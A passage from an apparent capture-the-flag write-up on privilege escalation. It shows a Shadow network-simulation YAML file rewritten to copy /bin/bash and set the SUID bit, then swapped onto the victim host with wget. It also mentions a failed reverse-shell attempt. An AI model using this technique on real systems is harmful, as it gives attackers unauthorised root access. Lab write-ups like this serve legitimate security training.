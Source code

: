 ```YAML
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```

Attempting to modify commands, I substituted the python3 binary to establish a reverse shell. Unfortunately, this approach didn't yield the desired results.

Subsequently, I created a network-simulation.yml file on my Kali host, crafting a command to copy and assign SUID permissions to the bash binary:

```YAML
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/bash
      start_time: 5s
```

By hosting this altered file and employing wget -O option, I replaced the original network-simulation.yml on the victim's system:

